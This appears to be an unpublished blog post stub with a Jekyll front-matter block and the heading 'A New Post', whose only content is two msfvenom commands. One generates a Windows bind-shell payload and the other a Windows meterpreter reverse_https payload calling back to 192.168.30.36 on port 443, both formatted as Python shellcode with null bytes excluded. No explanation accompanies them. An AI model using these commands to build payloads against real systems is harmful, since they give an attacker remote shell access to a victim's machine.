 ```yaml
---
published: false
---
```


## A New Post

    msfvenom -p windows/shell/bind_tcp -b '\x00' -f python -a x86
    
    msfvenom -p windows/meterpreter/reverse_https lport=443 lhost=192.168.30.36 -b '\x00' -f python -a x86



